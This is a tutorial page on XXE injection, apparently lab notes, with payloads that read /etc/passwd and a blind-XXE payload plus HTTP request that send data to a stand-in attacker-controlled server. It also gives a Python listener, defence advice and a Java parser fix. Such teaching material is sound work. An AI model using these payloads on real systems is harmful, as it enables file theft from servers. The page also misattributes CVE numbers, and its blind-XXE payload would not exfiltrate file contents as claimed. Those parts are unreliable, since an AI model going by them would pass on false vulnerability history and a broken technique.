

## Understanding XML External Entity (XXE) Injection

### Background Theory

XML External Entity (XXE) injection is a type of attack that exploits the way an application processes XML input. This vulnerability arises when an application parses untrusted XML input and allows references to external entities. These external entities can be used to read local files, perform denial-of-service attacks, or even execute remote commands.

### How XXE Injection Works

When an XML parser encounters an entity reference like `&entity;`, it attempts to resolve the entity. In the case of an external entity, the parser fetches the content from a specified URL or file path. This can lead to unauthorized access to sensitive information or execution of arbitrary commands.

#### Example of an XML Document with External Entities

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

In this example, the `SYSTEM` keyword indicates that the entity content should be fetched from the specified URL or file path. Here, the entity `xxe` is defined to fetch the contents of `/etc/passwd`.

### Real-World Examples

#### CVE-2019-11358: XXE in Atlassian Confluence

In 2019, Atlassian Confluence was found to be vulnerable to XXE attacks due to improper handling of XML input. An attacker could craft a malicious XML payload to read sensitive files from the server.

#### CVE-2020-13952: XXE in Apache Struts

Apache Struts, a popular Java framework, had a vulnerability where an attacker could inject malicious XML payloads to read arbitrary files on the server.

### Blind XXE Injection

Blind XXE injection occurs when the attacker cannot directly observe the result of their payload. Instead, they rely on side effects, such as making the server send a request to a controlled server.

### Lab Setup: Exploiting Blind XXE

In this lab, we will demonstrate how to exploit a blind XXE injection to exfiltrate data using a malicious external DTD.

#### Step-by-Step Process

1. **Identify the Vulnerable Input Field**: Find the input field where XML data is accepted.
2. **Craft the Malicious XML Payload**: Create an XML document with a malicious external entity.
3. **Configure the Attacker-Controlled Server**: Set up a server to receive the exfiltrated data.
4. **Submit the Payload**: Send the crafted XML payload to the vulnerable application.
5. **Monitor the Attacker-Controlled Server**: Check the server logs to verify the exfiltration.

### Detailed Example

#### Crafting the Malicious XML Payload

Let's assume the vulnerable application accepts XML input through a form. We will craft an XML payload that reads the `/etc/passwd` file and sends the content to our attacker-controlled server.

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://attacker-controlled-server.com/exfil?data=" >]>
<foo>&xxe;</foo>
```

In this example, the `SYSTEM` keyword points to a URL on the attacker-controlled server. The server will log the incoming request and extract the data.

#### Configuring the Attacker-Controlled Server

We need to set up a simple server to receive the exfiltrated data. For this example, we will use Python's `http.server` module.

```python
from http.server import BaseHTTPRequestHandler, HTTPServer

class SimpleHTTPRequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Received request: {self.path}")
        self.send_response(200)
        self.end_headers()

def run(server_class=HTTPServer, handler_class=SimpleHTTPRequestHandler):
    server_address = ('', 8000)
    httpd = server_class(server_address, handler_class)
    print('Starting httpd...')
    httpd.serve_forever()

if __name__ == "__main__":
    run()
```

This server will log the incoming request and respond with a 200 status code.

#### Submitting the Payload

Now, we submit the crafted XML payload to the vulnerable application. The exact method depends on the application's interface, but typically it would involve sending an HTTP POST request.

```http
POST /vulnerable-endpoint HTTP/1.1
Host: vulnerable-application.com
Content-Type: application/xml

<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "http://attacker-controlled-server.com/exfil?data=" >]>
<foo>&xxe;</foo>
```

#### Monitoring the Attacker-Controlled Server

After submitting the payload, we check the logs on the attacker-controlled server to verify the exfiltration.

### Mermaid Diagram: Attack Flow



### Common Pitfalls

1. **Improper Validation**: Failing to validate XML input can lead to successful XXE attacks.
2. **Disabling External Entities**: Not disabling external entities in the XML parser can expose the application to XXE attacks.
3. **Insufficient Logging**: Without proper logging, it may be difficult to detect and trace XXE attacks.

### How to Prevent / Defend

#### Secure Coding Practices

1. **Disable External Entities**: Configure the XML parser to disable external entity resolution.
2. **Validate Input**: Ensure that all XML input is validated against a strict schema.
3. **Use Secure Libraries**: Use libraries that are known to handle XML securely.

#### Configuration Hardening

1. **Disable DTD Loading**: Disable DTD loading in the XML parser.
2. **Restrict File Access**: Restrict file access permissions to prevent unauthorized reading of sensitive files.

#### Detection and Mitigation

1. **Logging and Monitoring**: Implement logging and monitoring to detect unusual activity.
2. **Regular Audits**: Conduct regular security audits to identify and mitigate vulnerabilities.

### Secure Code Fix

#### Vulnerable Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

#### Fixed Code

```java
DocumentBuilderFactory dbFactory = DocumentBuilderFactory.newInstance();
dbFactory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
dbFactory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
DocumentBuilder dBuilder = dbFactory.newDocumentBuilder();
Document doc = dBuilder.parse(new InputSource(new StringReader(xmlInput)));
```

### Hands-On Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers detailed labs on XXE injection.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security attacks, including XXE.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for testing and learning about web vulnerabilities.

By thoroughly understanding and practicing these concepts, you can effectively defend against XXE injection attacks and ensure the security of your applications.

---
<!-- nav -->
[[14-Understanding XML External Entities|Understanding XML External Entities]] | [[Web Security (PortSwigger)/08-XXE Injection/06-Lab 5 Exploiting blind XXE to exfiltrate data using a malicious external DTD/00-Overview|Overview]] | [[16-Understanding the Lab Scenario|Understanding the Lab Scenario]]
